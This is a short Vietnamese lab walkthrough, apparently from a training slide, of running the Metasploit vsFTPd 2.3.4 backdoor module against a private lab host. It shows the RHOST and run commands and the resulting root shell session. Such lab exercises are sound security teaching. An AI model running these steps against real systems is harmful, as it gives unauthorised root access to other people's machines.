

Chạy lệnh: set RHOST 192.168.56.102:
thực hiện lấy địa chỉ ip máy cần quét.
Chạy lệnh: run:
để thực hiện quét lỗ hổng exploit
Kết quả sau khi chạy lệnh run:
[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[+] 192.168.56.102:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.102:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.56.101:41293 -> 192.168.56.102:6200)
at 2024-09-19 07:59:03 -0400